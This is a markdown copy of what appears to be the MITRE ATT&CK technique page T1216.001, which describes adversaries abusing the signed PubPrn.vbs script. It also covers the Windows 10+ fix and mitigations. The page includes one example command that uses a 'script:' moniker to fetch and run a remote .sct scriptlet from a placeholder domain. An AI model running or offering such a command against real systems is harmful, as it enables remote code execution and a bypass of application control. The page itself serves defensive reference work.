 ```yaml
---
tags:
   - techniques
---
```

# PubPrn
## ID:T1216/001
Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](/mitre/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](/mitre/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).
## Mitigations
* [Execution Prevention](mitigations/M1038)
* [Behavior Prevention on Endpoint](mitigations/M1040)
